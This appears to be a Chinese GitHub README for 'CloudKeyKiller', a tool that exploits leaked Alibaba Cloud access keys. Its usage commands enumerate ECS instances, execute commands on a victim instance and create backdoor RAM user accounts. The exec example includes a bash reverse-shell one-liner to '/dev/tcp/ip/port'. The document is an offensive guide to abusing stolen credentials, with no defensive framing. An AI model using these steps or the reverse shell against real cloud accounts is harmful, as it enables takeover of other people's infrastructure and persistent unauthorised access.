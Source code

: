 # CloudKeyKiller

# 前言

先说一下这个工具解决了什么，经常能遇到很多AK泄露，在前端JS中，APP中，小程序源码中碰到，有时候单独拿到AK去尝试权限是比较麻烦的，我也想是否有必要写一款这种工具，答案是：可以的

不过写的中间其实不难发现，这就是一个体力活，如果可以，其实完全可以把API都调一遍，是吧，就知道这个AK的权限有多大了

不过我还是想，能否通过API来判断该AK的权限有多少，通过这些有的权限进行利用

再一个难点其实就是环境差别太大了，首先不知道拿到AK的时候我们是黑盒的情况下，不知道权限有多大，再一个就是，这种类型的工具，它的兼容性和适配性必须要好，因为不同的KEY会有不同的结果，所以我希望使用这款工具中遇到的问题，尽管提issue，因为这能帮助这款工具更快的迭代和发现问题

况且这工具开发时间很短，除了熟悉API的时间，写代码的时间可能也就1个小时，况且这种工具属于重复造轮子，调API就可以了

## 初始配置

将自己的对应云厂商AK写入/config/conf.py中即可

![image-20220414185136736](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185136736.png)

## ECS

### 获取所有ECS

```bash
python3 -aliyun ecs getecs
```

![image-20220414185023728](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185023728.png)

### 在指定ECS中执行命令

```bash
python3 main.py -aliyun ecs exec instanceid command RegionId
```

- instanceid

  - ECS中的InstanceID

- command

  - 你要执行的命令

    ```bash
    bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'
    ```

- RegionID

  - 地区ID

```bash
python3 main.py -aliyun ecs exec i-2556rj "bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'" cn-beijing
```

![image-20220414190034115](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414190034115.png)

## RAM

### 创建RAM用户

```bash
python3 main.py -aliyun ram createram 账号 密码
```

![image-20220414215019769](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414215019769.png)

# 推荐一个云安全wiki

- https://github.com/teamssix/twiki